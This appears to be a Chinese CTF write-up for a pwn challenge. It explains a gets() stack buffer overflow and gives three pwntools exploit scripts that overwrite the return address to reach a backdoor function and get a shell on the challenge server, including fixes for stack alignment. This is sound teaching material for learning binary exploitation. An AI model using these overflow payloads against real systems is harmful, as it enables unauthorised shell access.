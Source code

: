 这题搞了很久，收获了许多

![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20211108231355.png)

ida打开看了一下，是gets造成的栈溢出，双击s

![](https://raw.githubusercontent.com/Whitebird0/tuchuang/main/QQ%E6%88%AA%E5%9B%BE20211108231416.png)

s的大小为15，超过15就会溢出

这题两个思路

1.就是用15个字符覆盖s，然后直接就是后门函数，因为64位没有通过栈传参，而是寄存器传参，所以直接后面接后面函数地址，就可以getshell了，不过这种远程可以打通，本地打不通


              from pwn import *
              io=remote("node4.buuoj.cn",29378)
              payload=b'A'*15+p64(0x401186)
              io.sendline(payload)
              io.interactive()

2.通过传统的方法，先15个字符覆盖s,然后覆盖RBP,最后填后面函数地址，但是有问题，这里的问题是栈对齐造成的，我们一种是手动栈对齐，另外一种通过ret栈对齐

手动栈对齐

              from pwn import *
              io=remote("node4.buuoj.cn",29378)
              payload=b'A'*15+b'A'*8+p64(0x401186+1)
              io.sendline(payload)
              io.interactive()

通过ret栈对齐
            
              from pwn import *
              io=remote("node4.buuoj.cn",29378)
              payload=b'A'*15+b'A'*8+p64(0x401198)+p64(0x401186)
              io.sendline(payload)
              io.interactive()

这里的401198地址是ret,所以平栈后又把401186pop到EIP里，调用后门函数

